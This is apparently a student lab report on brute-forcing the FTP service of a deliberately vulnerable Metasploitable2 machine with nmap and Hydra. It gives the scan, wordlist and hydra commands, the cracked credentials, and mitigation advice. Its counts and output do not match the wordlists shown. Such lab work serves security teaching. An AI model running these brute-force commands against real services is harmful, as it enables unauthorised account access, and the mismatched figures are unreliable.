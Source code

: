 # 🔐 Hydra FTP Brute-Force Attack Lab Report

**Author:** Abdul Rahman Said  
**Date:** 06/29/2025 

**Target IP:** 192.168.21.128  
**Service:** FTP (Port 21)  
**Tools Used:** hydra, nmap, echo, Linux CLI

---

## 📌 Executive Summary

This lab demonstrates the use of Hydra, a powerful password-cracking tool, to perform a brute-force attack against the FTP service on a vulnerable Metasploitable2 machine. The attack succeeded in discovering 5 valid login credentials.

---

## 🗺️ Network Topology

```
+------------------+              +-------------------------+
|  Kali Linux      | ------------|  Metasploitable2 (FTP)  |
|  192.168.21.X     |  FTP: 21   |  192.168.21.128         |
+------------------+              +-------------------------+
```

---

## 🛠️ Tools Description

- **Hydra:** A fast and flexible brute-force tool that supports many protocols.  
- **Nmap:** Used to confirm FTP (port 21) is open on the target machine.  
- **Echo + Redirection (>):** Used to create custom username and password lists.

---

## 📋 Steps Performed

### 1. Scan the Target for FTP
```bash
nmap -p 21 192.168.21.128
```
**Result:**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```

### 2. Create Wordlists
```bash
echo -e "msfadmin\nroot\ntoor\nadmin\nuser" > users.txt
echo -e "msfadmin\n123456\npassword\nadmin" > passwords.txt
```

### 3. Run Hydra Attack
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.21.128
```

---

## ✅ Hydra Output Summary
```bash
[21][ftp] host: 192.168.21.128   login: ftp       password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: root
[21][ftp] host: 192.168.21.128   login: msfadmin  password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: toor
[21][ftp] host: 192.168.21.128   login: ftp       password: 123456
```

---

## 🧠 Interpretation

The FTP service accepts weak and default credentials, including common names like ftp, msfadmin, toor, and 123456.  
Hydra tested 30 login attempts across 6 users × 5 passwords in seconds.

---

## ⚠️ Risk Assessment

| Risk                  | Description                             | Impact | Mitigation                          |
|-----------------------|-----------------------------------------|--------|-------------------------------------|
| Weak FTP Credentials  | Default/weak passwords easily cracked   | High   | Use strong, unique passwords        |
| Brute-force Vulnerable| Service does not rate-limit login tries | High   | Implement rate limiting or lockouts|
| FTP Unencrypted       | Credentials sent in plain text          | High   | Replace FTP with SFTP or disable FTP|

---

## 🛡️ Defense Recommendations

- Enforce strong password policies.  
- Disable FTP if not needed, or replace it with secure alternatives like SFTP.  
- Monitor logs for brute-force attempts.  
- Use tools like fail2ban to block repeated failed login attempts.

---

## 📎 Notes

This attack was conducted in a controlled lab environment.  
All actions were ethical and educational, targeting a deliberately vulnerable machine.
